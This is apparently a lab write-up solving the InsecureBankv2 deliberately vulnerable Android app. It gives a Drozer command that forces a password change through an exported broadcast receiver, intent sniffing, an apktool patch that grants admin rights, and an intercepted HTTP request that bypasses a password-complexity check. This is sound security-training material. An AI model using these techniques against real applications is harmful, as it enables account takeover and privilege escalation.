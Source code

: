 # Insecure Bank v2 solutions
https://github.com/dineshshetty/Android-InsecureBankv2

## Setup

```
git clone https://github.com/dineshshetty/Android-InsecureBankv2.git
cd AndroLabServer
pip install -r requirements.txt
python app.py
```

The server starts running on port 8888.

Install the app on your phone and connect to the same network as the server.

After opening the app on your phone, go to preferences and add your server's IP and port number.

Log in using the credentials given in the documentation.

-----

Checklist

- [x] Flawed Broadcast Receivers
- [x] Intent Sniffing and Injection
- [x] Weak Authorization mechanism
- [ ] Local Encryption issues
- [ ] Vulnerable Activity Components
- [ ] Root Detection and Bypass
- [ ] Emulator Detection and Bypass
- [ ] Insecure Content Provider access
- [ ] Insecure Webview implementation
- [ ] Weak Cryptography implementation
- [ ] Application Patching
- [ ] Sensitive Information in Memory
- [ ] Insecure Logging mechanism
- [ ] Android Pasteboard vulnerability
- [ ] Application Debuggable
- [ ] Android keyboard cache issues
- [ ] Android Backup vulnerability
- [ ] Runtime Manipulation
- [ ] Insecure SDCard storage
- [ ] Insecure HTTP connections
- [ ] Parameter Manipulation
- [ ] Hardcoded secrets
- [ ] Username Enumeration issue
- [ ] Developer Backdoors
- [x] Weak change password implementation

-----

## Flawed Broadcast Receivers

In AndroidManifest.xml, we have this code:

```
<receiver android:name="com.android.insecurebankv2.MyBroadCastReceiver" android:exported="true">
    <intent-filter>
        <action android:name="theBroadcast"/>
    </intent-filter>
</receiver>
```

You can learn more about it over [here](https://developer.android.com/guide/components/broadcasts) and [here](https://developer.android.com/guide/components/intents-filters).

Essentially, a broadcast receiver is a form of intent. Intents themselves are of two types: explicit and implicit. Explicit intents need the exact application name that is supposed to handle the action, whereas implicit intents can give you the option to choose between several apps that can handle the intent.

"By declaring an intent filter for an activity, you make it possible for other apps to directly start your activity with a certain kind of intent. Likewise, if you do not declare any intent filters for an activity, then it can be started only with an explicit intent."

We see that it uses the class MyBroadCastReceiver.java, so we'll go over the code in that file.

This class takes the phone number and new password from the previous activity.

```
String phn = intent.getStringExtra("phonenumber");
String newpass = intent.getStringExtra("newpass");
```

In order to understand why, where and how this broadcast is actually used, we search for "theBroadcast" and we find that it is used in ChangePassword.java as follows:

```
public void broadcastChangepasswordSMS(String phoneNumber, String pass) {

    if (TextUtils.isEmpty(phoneNumber.toString().trim())) {
        System.out.println("Phone number Invalid.");
        return;
    }

    Intent smsIntent = new Intent();
    smsIntent.setAction("theBroadcast");
    smsIntent.putExtra("phonenumber", phoneNumber);
    smsIntent.putExtra("newpass", pass);
    sendBroadcast(smsIntent);

}
```

So if we can create such an intent in another app, we can change the password of the user by calling the Context.sendBroadcast(Intent) as mentioned in the [BroadcastReceiver](https://developer.android.com/reference/android/content/Context#sendBroadcast(android.content.Intent)) documentation.

In order to save time, we can also use Drozer's `app.broadcast.send` to quickly send a broadcast without having to create an app.

```
dz> run app.broadcast.send --action theBroadcast --extra string phonenumber 1234 --extra string newpass asdf
```

Take a look at [this](https://hackerone.com/redirect?signature=e9b262c23bb3df8ec37850c763775bafb8b7acca&url=https%3A%2F%2Foldbam.github.io%2Fandroid%2Fsecurity%2Fandroid-vulnerabilities-insecurebank-broadcast-receivers) link.

Similar example can be found in [this](https://hackerone.com/reports/289000) report.

-----

## Intent Sniffing and Injection

Intent sniffing can be done when the application is sending broadcast intents.

We can use drozer module `app.broadcast.sniff` to sniff the required intent.

The action to be sniffed is `<action android:name="theBroadcast"/>`

Therefore the drozer command required will be: `dz> run app.broadcast.sniff --action theBroadcast`

But, after I run the change password functionality on my phone, drozer fails to register any broadcast intents. If anyone knows why this might be happening, do let me know.

I then proceeded to use the sniffer provided in the walkthrough `~/insecure_bankv2/wip-attackercode/SniffIntents`.

Once we install the app, we can call the intent using the above drozer code.

`Phone Number is: 1234 and New Password is: asdf`

-----

## Weak Authorization mechanism

Under `res/values/strings.xml` we find `is_admin`. Patch the app using apktool to change its value from `no` to `yes`.

-----

## Weak change password implementation

Client-side check requires password to be complex, but can be circumvented by intercepting and modifying request through a proxy.

```
POST /changepassword HTTP/1.1
Content-Length: 46
Content-Type: application/x-www-form-urlencoded
Host: 10.0.2.2:8888
Connection: close
User-Agent: Apache-HttpClient/UNAVAILABLE (java 1.4)

username=dinesh&newpassword=dinesh
```

-----

